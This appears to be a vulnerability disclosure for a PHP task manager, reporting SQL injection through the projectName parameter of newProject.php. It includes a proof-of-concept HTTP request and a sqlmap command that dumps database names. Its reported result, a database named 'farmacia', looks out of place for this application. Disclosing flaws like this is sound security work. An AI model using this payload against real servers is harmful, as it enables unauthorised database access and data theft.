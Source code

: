# Task_Manager_In_PHP has sql injection vulnerability in newProject.php

## supplier
https://code-projects.org/task-manager-in-php-with-source-code/
## Vulnerability file
newProject.php
## describe
An unrestricted SQL injection attack exists in Task_Manager_In_PHP.   The parameters that can be controlled are as follows: projectName . This function executes the projectName parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

## code analysis

The projectName parameter in newProject.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241111104313092](https://github.com/user-attachments/assets/9fe6e51e-6fd4-4d6c-b7a6-77c06c901ebe)

Injection via parameter projectName

## POC

```
POST /newProject.php HTTP/1.1
Host: taskmanager
Content-Length: 59
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://taskmanager
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://taskmanager/Projects.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

projectName=1*&priority=Low&createProject=%E6%8F%90%E4%BA%A4
```

save as 3.txt

```
python sqlmap.py -r 3.txt --dbs
```

![image-20241111104425987](https://github.com/user-attachments/assets/63872fc4-1e2d-4083-986c-6261b968775e)

Get the database name: farmacia

![image-20241111104505767](https://github.com/user-attachments/assets/8cc61cd4-8211-460e-9e41-dd7f2082c2c2)



**Discover**

西安电子科技大学 李腾，谢亚轩